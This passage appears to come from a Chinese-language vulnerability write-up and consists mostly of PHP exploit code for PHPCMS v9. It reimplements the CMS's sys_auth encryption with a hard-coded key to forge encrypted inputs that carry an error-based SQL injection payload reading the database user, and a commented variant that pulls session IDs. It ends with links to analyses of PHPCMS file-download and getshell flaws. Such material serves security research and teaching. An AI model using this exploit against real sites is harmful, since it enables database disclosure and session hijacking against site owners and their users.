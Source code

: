     	if($operation == 'DECODE') {
        	if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        	} else {
        	    return '';
        	}
    	} else {
        	return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
    	}
	}

	$auth_key = "wR67aGYF4kOghES5NKG1";
	$ip = "123.59.214.3";
	function get_auth_key($prefix,$suffix="") {
    	global $auth_key;
   		global $ip;
    	if($prefix=='login'){
        	$pc_auth_key = md5($auth_key.$ip);
    	}else if($prefix=='email'){
        	$pc_auth_key = md5($auth_key);
    	}else{
        	$pc_auth_key = md5($auth_key.$suffix);
    	}
    	$authkey = md5($prefix.$pc_auth_key);
    	return $authkey;
	}

	$auth_key2 = get_auth_key('login');
	$auth_key2 = get_auth_key('login');
	$sql = "1' and (extractvalue(1,concat(0x7e,(select user()))));#\txx";
	#$sql = "1' and (extractvalue(1,concat(0x7e,(select sessionid from v9_session))));#\tokee";
	$sql = sys_auth($sql,'ENCODE',$auth_key2);
	echo sys_auth($sql,'ENCODE',$auth_key);

	echo "\n";
	echo sys_auth('1','ENCODE',$auth_key);

	echo sys_auth('3d1bj3Vdx7JEQ6XakmlhBiUiEYBo7Ff3XMV2qrSu','DECODE',$auth_key);


参考链接：

http://blog.nsfocus.net/phpcms-v9-6-1-arbitrary-file-download-vulnerability-analysis-exp/

https://www.jianshu.com/p/47bf5b7c3b2e

https://www.anquanke.com/post/id/86134

https://www.jianshu.com/p/67c81e3b3258


https://xz.aliyun.com/t/201

https://www.waitalone.cn/phpcmsv96-sql-getshell.html

https://www.kingkk.com/2018/07/phpcms-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8-1

